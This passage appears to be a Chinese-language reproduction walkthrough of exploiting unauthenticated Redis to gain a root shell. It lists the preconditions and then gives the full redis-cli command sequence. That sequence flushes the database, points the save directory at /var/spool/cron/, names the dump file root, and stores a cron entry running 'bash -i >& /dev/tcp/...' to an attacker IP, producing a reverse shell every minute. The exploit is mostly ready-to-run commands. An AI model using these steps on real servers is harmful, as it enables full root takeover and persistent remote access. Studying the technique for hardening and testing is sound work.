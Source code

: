 1. redis存在未授权/弱口令
2. redis服务为root权限启动
3. 服务器开启计划任务功能
4. 服务器允许向其他ip发起tcp请求

### 复现过程

**-未授权访问redis，写入定时任务**

1. 选择攻击机开启nc监听接受shell，连接redis，并写入任务

   ```
   redis-cli -h 10.1.2.185
   ```

   ![image-20210906113952526](/assets/images/20210911/image-20210906113952526.png)

   ```
   flushall 
   
   config set dir /var/spool/cron/   //更改路径为定时任务路径
   
   config set dbfilename root     //更改备份文件名称
   
   set abc "\n * * * * *  bash -i >& /dev/tcp/10.1.2.156/2234 0>&1\n"   //默认一分钟反弹一次，可自定义按照定时任务规则进行修改
   
   save  //保存设置
   ```

   ![image-20210906114012378](/assets/images/20210911/image-20210906114012378.png)

   

2. 成功接收到shell

   ![image-20210906114055693](/assets/images/20210911/image-20210906114055693.png)
